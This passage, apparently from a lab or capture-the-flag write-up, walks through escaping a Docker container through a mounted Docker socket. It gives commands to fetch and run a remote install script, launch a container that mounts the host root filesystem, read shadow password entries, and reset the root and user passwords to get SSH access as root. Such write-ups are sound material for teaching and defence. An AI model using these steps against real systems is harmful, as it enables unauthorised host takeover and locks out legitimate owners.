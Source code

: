 
## accessing the webshell and exploiting this setup

now we can access the webshell in our attackerpc browser, sweet.
this instance has a working apt package manager, we can install curl and docker without much problems...
`apt-get update`
`apt-get install curl `
`curl -fsSL get.docker.com -o get-docker.sh`
`sh get-docker.sh`

`docker ps` seems to show us all containers running, this means that the docker socket is mounted on this container, and it's being run as the root user.. this makes it easy.

` docker run -v /:/hostOS -it chrisfosterelli/rootplease ` will give you a root shell in the docker host machine...

now we can look for users with passwords
`vipw -s`

I see a whale user and changed his password with `passwd whale`, I also made a root password change with `passwd`

Now on your attacker machine you can ssh to the docker host with `ssh whale@<dockerhostvmip>` and entering the password you just entered.

## I AM root

Now you can just  `su - ` and use the password you set for root.

